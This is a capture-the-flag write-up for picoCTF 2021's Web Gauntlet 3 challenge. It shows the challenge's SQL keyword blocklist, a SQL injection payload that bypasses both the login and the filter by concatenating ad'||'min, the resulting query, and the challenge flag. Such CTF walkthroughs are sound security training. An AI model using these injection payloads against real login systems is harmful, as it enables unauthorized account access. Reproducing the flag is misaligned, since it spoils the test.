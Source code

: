 # Web Gauntlet 3

```markdown
Tags: `picoCTF2021` `Web Exploitation`
```

## **Description**

Last time, I promise! Only 25 characters this time. Log in as admin Site: [http://mercury.picoctf.net:8650/](http://mercury.picoctf.net:8650/) Filter: [http://mercury.picoctf.net:8650/filter.php](http://mercury.picoctf.net:8650/filter.php)

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: ad'||'min
password: 1' IS NOT '2
```

```sql
SELECT username, password FROM users WHERE username='ad'||'min' AND password='1' IS NOT '2' 
```

## Flag

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p><code>picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
